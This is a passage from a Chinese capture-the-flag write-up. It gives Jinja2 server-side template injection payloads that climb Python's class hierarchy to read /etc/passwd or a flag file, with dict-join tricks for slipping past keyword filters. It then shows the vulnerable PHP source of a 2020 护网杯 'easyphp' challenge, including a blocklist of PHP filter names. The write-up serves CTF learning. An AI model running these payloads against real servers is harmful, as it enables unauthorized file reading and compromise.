 

后来又想了想，为啥用random，pop直接弹出不就完事

```python
{ %set%20a=((self._TemplateReference__context.parent).pop((self._TemplateReference__context.parent|list).pop(9))% }{ 
{((()|attr(a.args.a)|attr(a.args.b)|attr(a.args.c)())|attr(a.args.d)(40))(a.args.e).read()} 
}&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=/etc/passwd
```





## 方法二





利用列表特性

`dict(__clas=aa,s__=dd)`



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109112913.png)

再`join` 一下



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201109113002.png)





```
{ % set a = dict(__clas=aa,s__=dd)|join() % }{ % set b = dict(__bas=aa,e__=dd)|join() % }{ % set c = 
dict(__subc=aa,lasses__=dd)|join() % }{ % set exp = ({ }|attr(a)|attr(b)|attr(c))().pop(40) % }{ % set flag = 
dict(flag=aa)|join() % }{ {exp(flag).read()} }
```







### 2020 护网杯 easyphp

主页存在文件包含 读源码

存在7fa3b767c460b54a2be4d49030b349c7.php

```php
<?php
error_reporting(0);
$sandbox = '/var/www/html/sandbox/' . md5($_SERVER['REMOTE_ADDR']);
echo "Here is your sandbox: ". md5($_SERVER['REMOTE_ADDR']);
@mkdir($sandbox);
@chdir($sandbox);
highlight_file(__FILE__);
if (isset($_GET['content'])) {
    $content = $_GET['content'];
    if (preg_match('/iconv|UCS|UTF|rot|quoted|base64|%|toupper|tolower|dechunk|\.\./i', $content))
        die('hacker');
    if (file_exists($content))
        require_once($content);
    file_put_contents($content, '<?php exit();' . $content);
}
```
